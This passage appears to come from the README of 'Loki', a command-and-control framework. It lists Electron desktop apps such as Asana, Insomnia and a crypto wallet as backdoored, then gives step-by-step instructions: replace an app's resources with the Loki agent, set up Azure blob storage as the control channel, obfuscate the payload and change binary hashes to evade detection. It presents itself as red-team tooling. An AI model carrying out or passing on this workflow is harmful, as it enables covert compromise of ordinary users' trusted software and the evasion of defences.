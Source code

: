| ✅         | [Arduino IDE](https://www.arduino.cc/en/software/)    | `Arduino IDE.exe`   |                 | [j0hnZ3RA](https://github.com/j0hnZ3RA)                                      |
| ✅         | [QRLWallet](https://www.theqrl.org/)                    | `QRLWallet.exe`            | `1.8.1`  | [OnlySmrtSumX](https://www.linkedin.com/in/onlysmrtsumx/) & [tideboss](https://www.linkedin.com/in/kursad-dev/)|
| ✅         | [DevHub](https://devhubapp.com/)                    | `DevHub.exe`            | `0.102.0`  | [ab4y98](https://github.com/Ab4y98)|
| ✅         | [Asana](https://asana.com/)                           | `Asana.exe`           | `2.3.0`       | [syro](https://github.com/0xsyr0)                                            |
| ✅         | [Insomnia](https://insomnia.rest/)                    | `insomnia-11.0.2.exe` | `11.0.2`      | [syro](https://github.com/0xsyr0)                                            |
| ✅         | [Ferdium](https://ferdium.org/)                       | `Ferdium.exe`       | `7.0.1`         | [pir4cy](https://github.com/pir4cy)                                            |
| ✅         | [Franz](https://meetfranz.com/)                       | `Franz.exe`         | `5.11.0`        | [pir4cy](https://github.com/pir4cy)                                            |
| ✅         | [TIDAL](https://tidal.com/)                           | `TIDAL.exe`         |                 | [pir4cy](https://github.com/pir4cy)                                            |
| ❌         | 1Password                                             | `1Password.exe`     |                 |                                                                              |
| ❌         | Signal                                                | `Signal.exe`        |                 |                                                                              |
| ❌         | Slack                                                 | `slack.exe`         |                 |                                                                              |
| ❌         | Notion                                                | `Notion.exe`        |                 |                                                                              |


### Simple Instructions
_You don't need to compile the agent when backdooring Electron apps. Just replace the contents of `{ELECTRONAPP}/resources/app/` with the Loki agent files._

### Detailed Instructions
#### Step 1 : Create Azure Storage Blob Account and get SAS Token
- [Create Azure Storage Account via Azure Portal](./docs/azure/create-storage-account-portal.md)
- [Create Azure Storage Account via Azure CLI](./docs/azure/create-storage-account-sas-azurecli.md)
#### Step 2 : Create Obfuscated Loki Payload
- Clone this repo and `cd` into it
- Install Node.JS
- Install `javascript-obfuscator` module
```
npm install --save-dev javascript-obfuscator
```
- Run `obfuscateAgent.js` script to create a Loki payload with your Storage Account info
```
bobby$ node obfuscateAgent.js 
[+] Provide Azure storage account information:
        - Enter Storage Account  : 7f7584ty218ba5dba778.blob.core.windows.net
        - Enter SAS Token        : se=2025-05-28T23%3A14%3A48Z&sp=rwdlac&spr=https&sv=2022-11-02&ss=b&srt=sco&sig=5MXQzJ6FDZK8yYiBSgJ6FDZKgQzJMXBSgg6qE4ydrJ6FDZKSgg%3D

[+] Configuration:
        - Storage Account : 7f7584ty218ba5dba778.blob.core.windows.net
        - SAS Token       : se=2025-05-28T23%3A14%3A48Z&sp=rwdlac&spr=https&sv=2022-11-02&ss=b&srt=sco&sig=5MXQzJ6FDZK8yYiBSgJ6FDZKgQzJMXBSgg6qE4ydrJ6FDZKSgg%3D
        - Meta Container  : mllyi2zjmafjm

[+] Updated /Users/bobby/apr2/LokiC2/config.js with storage configuration. 
 - Enter into the Loki Client UI
        Loki Client > Configuration

[+] Modifying PE binaries to have new hashes...
        - Payload assembly.node hash : e9d126407264821d3c2d324da0e2d1bc13cbc53e7c56340fe12b07f69b707f02
        - Payload keytar.node   hash : 292c14ffebd6cae3df99d9fbee525e29a5a704f076b82207eb3e650de45b075d

[+] Payload ready!
```
